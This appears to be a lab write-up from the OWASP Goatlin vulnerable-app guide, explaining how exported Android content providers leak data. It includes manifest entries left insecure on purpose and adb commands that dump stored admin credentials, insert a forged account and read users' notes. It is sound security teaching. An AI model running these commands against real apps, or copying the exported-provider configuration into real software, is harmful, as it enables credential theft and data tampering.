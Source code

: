M1: Improper Platform Usage
===========================
From the [Android documentation][4]: "_Content providers are one of the primary
building blocks of Android applications, providing content to applications_".
Content providers are mostly used to share data between Android applications.
Such as Activities, Services or Receivers, Content providers can have weak
permissions or can be exported for all the apps on the device. Such
misconfiguration can lead the Android app to leak the data used by the Content
provider.

When the Content provider is exported, all the apps can query the Content
provider to retrieve or modify the data. On the Goatlin app, we can identify
that a Content provider is defined with the name `.AccountProvider` and the
exported tag is set to true. Here is an extract of the `AndroidManifest` file:

```xml
<provider
    android:name=".AccountProvider"
    android:authorities="com.cx.vulnerablekotlinapp.accounts"
    android:enabled="true"
    android:exported="true" />
```

Looking at the code on the `AccountProvider.kt` class, we can retrieve the
Content URI:

```xml
companion object {
    private val AUTHORITY = "com.cx.vulnerablekotlinapp.accounts"
    private val ACCOUNTS_TABLE = "Accounts"
    val CONTENT_URI : Uri = Uri.parse("content://" + AUTHORITY + "/" +
                ACCOUNTS_TABLE)
    private val DATABASE_NAME = "data"
}
```

Then, using the `adb` tool, we can query this provider and even insert data.
Here is simple example allowing to query the provider in order to retrieve the
accounts stored:

```
$ adb shell content query --uri content://com.cx.vulnerablekotlinapp.accounts/Accounts
Row: 0 id=1, username=admin, password=admin
```

We can obtain the admin's credentials in this case.


Here is another example allowing to add a new account into the Goatlin app:

```
$ adb shell content insert --uri content://com.cx.vulnerablekotlinapp.accounts/Accounts  --bind username:s:kotlin --bind password:s:goat
$ adb shell content query --uri content://com.cx.vulnerablekotlinapp.accounts/Accounts
Row: 0 id=1, username=admin, password=admin
Row: 1 id=2, username=kotlin, password=goat

```

In the same manner, the app leaks a Content provider named `.NotesProvider` for
the notes created by the user.

Here is the definition of the Content provider in the Android manifest:

```xml
<provider
    android:name=".NotesProvider"
    android:authorities="com.cx.vulnerablekotlinapp.notes"
    android:enabled="true"
    android:exported="true"></provider>
```

As shown previously, we can obtain the Content URI by analyzing the
`NotesProvider` class:

```kotlin
companion object {
    private val AUTHORITY = "com.cx.vulnerablekotlinapp.notes"
    private val NOTES_TABLE = "Notes"
    val CONTENT_URI : Uri = Uri.parse("content://" + AUTHORITY + "/" +
                NOTES_TABLE)
    private val DATABASE_NAME = "data"
}
```

Again, with the `adb` tool, we can query this provider and retrieve the notes
stored:

```
$ adb shell content query --uri content://com.cx.vulnerablekotlinapp.notes/Notes
Row: 0 id=1, title=whvw, content=whvw, createdAt=2019-01-07 14:58:32, owner=1
```

For this provider, we can observe that the notes are not stored in clear text
(the title and content of the note should be "test").
This encryption mechanism is further analyzed in the [M5: Insufficient
Cryptography][8] section.

More information about how to test improper platform usage can be found on the
[OWASP Mobile Testing Guide][5] and especially on the [Testing Platorm
Interaction] [6] section.

## Resources

### Tools

* [adb][9]
* [apktool][1]
* [jadx][2]
* [jd-gui][3]

### Readings

* [Android documentation: Content Provider][4]
* [Testing Platform Interaction][6]
* [OWASP Mobile Testing Guide][5]
* [OWASP Mobile Top 10 2016: M1 - Improper Platform Usage][7]

[1]: https://github.com/skylot/jadx
[2]: http://jd.benow.ca/
[3]: https://ibotpeaches.github.io/Apktool/
[4]: https://developer.android.com/reference/android/content/ContentProvider
[5]: https://www.owasp.org/index.php/OWASP_Mobile_Security_Testing_Guide
[6]: https://github.com/OWASP/owasp-mstg/blob/master/Document/0x05h-Testing-Platform-Interaction.md
[7]: https://www.owasp.org/index.php/Mobile_Top_10_2016-M1-Improper_Platform_Usage
[8]: ../m5-insufficient-cryptography
[9]: https://developer.android.com/studio/command-line/adb

